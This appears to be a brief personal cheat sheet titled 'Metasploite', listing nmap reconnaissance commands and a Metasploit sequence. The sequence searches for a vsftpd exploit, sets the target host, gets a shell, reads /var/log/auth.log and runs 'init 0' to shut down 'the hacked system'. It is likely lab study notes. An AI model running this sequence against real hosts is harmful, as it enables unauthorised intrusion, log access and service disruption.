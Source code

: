# Metasploite
# nmap -sn ip/24 
# nmap meta ip 
# nmap -sU ip 
# ftp ip  
# nmap ip 
# nmap -O ip 
# msfconsole ---> 
# search vsftpd 
# use link 
# show options 
# set Rhosts ip 
# show options 
# exploit 
# shell to acess the system 
# then enter cat /var/log/auth.log 
# init 0 ---------> shut down the hacked system
